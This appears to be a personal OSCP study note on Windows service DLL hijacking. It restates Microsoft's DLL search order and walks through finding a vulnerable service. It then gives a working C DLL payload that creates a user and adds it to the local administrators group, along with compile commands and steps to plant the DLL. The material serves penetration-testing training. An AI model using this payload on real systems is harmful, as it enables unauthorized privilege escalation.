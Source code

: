 ```yaml
---
aliases:
  - Service DLL Hijacking
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - windows
  - privesc
  - privilege_escalation
  - service
  - windows_services
  - service_dll_hijack
  - dll_hijack
  - dll
author: Mehdi N Tehrani
creat_date: 2024-01-02
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# DLL Search Order
#dll_search_order #search_order
[DLL Search Order - Microsoft](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
## Packaged apps
1. DLL redirection
2. API sets
3. **Desktop apps only (not UWP apps). SxS manifest redirection.**
4. Loaded-module list.
5. Known DLLs.
6. The package dependency graph of the process. This is the application's package plus any dependencies specified as `<PackageDependency>` in the `<Dependencies>` section of the application's package manifest. Dependencies are searched in the order they appear in the manifest.
7. The folder the calling process was loaded from (the executable's folder).
8. The system folder `%SystemRoot%\system32`.

> If a *DLL has dependencies*, then the system searches for the dependent DLLs as if they were loaded with just their module names (even if the first DLL was loaded by specifying a full path).

## Unpackaged apps
If safe DLL search mode is enabled:
1. DLL redirection
2. API sets
3. **SxS manifest redirection**
4. Loaded-module list.
5. Known DLLs.
6. **Windows 11, version 21H2 (10.0; Build 22000), and later**. The package dependency graph of the process. This is the application's package plus any dependencies specified as `<PackageDependency>` in the `<Dependencies>` section of the application's package manifest. Dependencies are searched in the order they appear in the manifest.
7. The folder the calling process was loaded from (the executable's folder).
8. The system folder. Use the `GetSystemDirectory` function to retrieve the path of this folder.
9. **The 16-bit system folder**. There's no function that obtains the path of this folder, but it is searched.
10. **The Windows folder**. Use the `GetWindowsDirectory` function to get the path of this folder.
11. **The current folder**.
12. The directories that are listed in the **PATH environment** variable. This doesn't include the per-application path specified by the App Paths registry key. The App Paths key isn't used when computing the DLL search path.

> If *safe DLL search* mode is *disabled*, then the search order is the same except that the current folder moves from position 11 to position 8 in the sequence (immediately after step 7. The folder from which the application loaded).

### Simplified List
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

> When *safe DLL search* mode is *disabled*, the current directory is searched at position 2 after the application's directory.



# Process
## 1. find vulnerable service
where path is somewhere user has access to drop a dll file into
#powershell #get_running_service #get_service
```powershell
Get-CimInstance -ClassName win32_service | select name,pathname,state,startmode | ?{$_.state -eq 'running' -and $_.pathname -notlike 'c:\win*'}
```
## 2. Use procmon to find dependent DLLs
Filters:
- `ProcessName` is `<service_name>`
- `Operation` is `createfile`
- `Result` is `name not found`
- `Path` ends with `.dll`
- `Path` starts with `C:\Win`: action=`exclude`
### Find out to which folder user has write access to
if no folder can be used check directories in PATH variable
###  Check PATH

## 3. Build Exploit
Use a malicious c code to add a new user to local administrators group
**MyDLL.cpp**
```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
	HANDLE hModule,              // Handle to DLL module
	DWORD ul_reason_for_call,    // Reason for calling function
	LPVOID lpReserved )          // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user <user> <pass> /add");
  	    i = system ("net localgroup administrators <user> /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Compile:
```sh
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

## 4. Move exploit to path found in step 2
## 5. Restart the service to trigger the action
#administrators #localgroup #local_administrators
get a new user added to the local administrators group
